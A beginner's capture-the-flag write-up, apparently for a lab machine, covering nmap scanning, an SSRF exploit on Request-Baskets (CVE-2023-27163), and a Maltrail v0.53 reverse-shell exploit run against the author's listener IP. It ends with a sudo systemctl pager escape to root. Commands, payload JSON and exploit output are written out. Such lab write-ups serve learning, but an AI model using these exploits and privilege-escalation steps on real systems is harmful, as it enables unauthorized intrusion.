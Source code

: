 I start as I do allways, making a folder with the name of the target, another three of nmap, exploits and content.

I started the scann and I found a :
22 ssh port open
55555 port open (a request baskets) 

I had to do another scan, that I really dont like to do ,because at first time I Only watched the 22 port open

```
nmap -sV -sC -v (this scanns all the ports usually I do this one with just a selected ports)
```
This is what i get with what web
```
http://10.10.11.224:55555 [302 Found] Country[RESERVED][ZZ], IP[10.10.11.224], RedirectLocation[/web]
http://10.10.11.224:55555/web [200 OK] Bootstrap[3.3.7], Country[RESERVED][ZZ], HTML5, IP[10.10.11.224], JQuery[3.2.1], PasswordField, Script, Title[Request Baskets]
```

This is the info of all the scan
```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 06 Sep 2023 15:49:06 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 06 Sep 2023 15:48:21 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 06 Sep 2023 15:48:25 GMT
|_    Content-Length: 0

```

I will try this script too, this enumerates http directions on the target (when I give it the 55555 this wasn't a good request)
```
nmap --script http-enum 10.10.11.224 -oN webscan
```
and this way do not work too

```
nmap -p 55555 --script  http-enum 10.10.11.224 -oN webscan -vvv
```




The launchpad of this ubuntu seems to be "focal" 
```
OpenSSH 8.2p1 Ubuntu 4ubuntu0.7
```


On searchsploit I found this exploit 

```
Request-Baskets v1.2.1 - Server-side request forgery (SSRF)                             | python/webapps/51675.sh

```
We have a port filtered,  the 80 so I think if i be able to use this one , I will be able to see it 







## What is request basket? ##
This is request-basket , from https://github.com/darklynx/request-baskets

[Request Baskets](https://rbaskets.in/) is a web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI.

It is strongly inspired by ideas and application design of the [RequestHub](https://github.com/kyledayton/requesthub) project and reproduces functionality offered by [RequestBin](http://requestb.in/) service.




This website explains the vulnerability
https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3

Now , i wanna know what is Proof of Concept (_PoC_)

This is the "way" to attack:

```
[Attack Vectors]
POC: POST /api/baskets/{name} API with payload - {"forward_url": "http://127.0.0.1:80/test","proxy_response": false,"insecure_tls": false,"expand_path": true,"capacity": 250}
details can be seen: https://notes.sjtu.edu.cn/s/MUUhEymt7
```


So, the way that I can go and exploit it was from this github repository

https://github.com/entr0pie/CVE-2023-27163

First I had to get the exploit with 

```
wget https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/main/CVE-2023-27163.sh
```
The second thing that I must do is use it

the command -h shows this
```
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

Usage: CVE-2023-27163.sh <URL> <TARGET>

This PoC will create a vulnerable basket on a Request-Baskets (<= 1.2.1) server,
which will act as a proxy to other services and servers.

Arguments:
 URL            main path (/) of the server (eg. http://127.0.0.1:5000/)
 TARGET         r-baskets target server (eg. https://b5f5-138-204-24-206.ngrok-free.app/)
```

This was the way that I use the exploit. The frist argument was the url that I was attacking, and the second one I just put a 127.0.0.1:80 my loopback link. I put to work a python3 server but strangely it works even if i do not use it... Im a fkn noob.. so I want to understand this. Thinking it better, It have no sense because the python server wasn't were working on the 127.0.0.1... I still do not understanding the second argument... 
```
./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80

```
but well... finally it worked, this was the output
```
> Creating the "jlrpcv" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/jlrpcv now makes the server request to http://127.0.0.1:80.
./CVE-2023-27163.sh: line 43: jq: command not found
> Response body (Authorization): {"token":"j8MDsCOZw1ztgTGYVvyBKpA7o_ruAfEtBwaylD3WAVtg"}

```
And wen I get on that link (http://10.10.11.224:55555/jlrpcv) I found a ugly website

![[Screenshot_2023-09-06_14_43_08.png]]
The port 80 was filtered, so... maybe this is the service running on that port.

whatweb gives me this, i think nothing interesting

```
http://10.10.11.224:55555/fvvtdd [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Maltrail/0.53], IP[10.10.11.224], Script[text/javascript], Title[Maltrail], UncommonHeaders[content-security-policy], X-UA-Compatible[IE=edge]
```
The most interesting thing about this site is this 

```
Powered by Maltrail (v0.53)
```
Maybe this thing have some kind of exploit , the source page doesn't revealed me nothing strange ... for me.

I found searching on websites  an exploit, maybe it works for me to get a reverse shell.
https://github.com/spookier/Maltrail-v0.53-Exploit

I must do this...maybe i need to put netcat to listen first

```
python3 exploit.py 1.2.3.4 1337 http://example.com
```
So the payload would be like this

```
python3 exploit.py 10.10.16.28 http://10.10.11.224:55555/fvvtdd
```

This doesnt work.... This is because reading a little. I found that the target to the attack is "username" so, we must attack the 127.0.0.1:80/login ... So, the two parameters of the attack that i was doubting before they are for the same target... and the 127.0.0.1 its the local net of the machine because of this, is a SSRF. 

We need to do another token to the 127.0.0.1:80/login and then attack it with the python exploit
```
Kali> ./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80/login
```
the output
```
> Creating the "cblhah" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/cblhah now makes the server request to http://127.0.0.1:80/login.
./CVE-2023-27163.sh: line 43: jq: command not found
> Response body (Authorization): {"token":"VntKnhP5XJXj08loblvmwZhZSBfMtzGCbqV7lC9dkhkI"}
```
and we run the exploit
```
python3 exploit.py 10.10.16.28 http://10.10.11.224:55555/cblhah
```

AND IT WOOORKSS !!!

We make a little treatment to the tty 
```
kali>script /dev/null -c bash

kali>stty raw -echo;fg

kali>reset xterm

kali>export TERM=xterm
```

We are "puma"
```
puma@sau:/opt/maltrail$ whoami
puma
puma@sau:/opt/maltrail$ 
```


puma can execute this as sudo without passowor (I use sudo -l to guess)

```
/usr/bin/systemctl status trail.service
```

when you execute this, you can write , because it is like "less" on the command line of linux, so instead of moving the arrows up or down just I write this:

```
!/bin/sh
```

and now i'm root and i can get the flag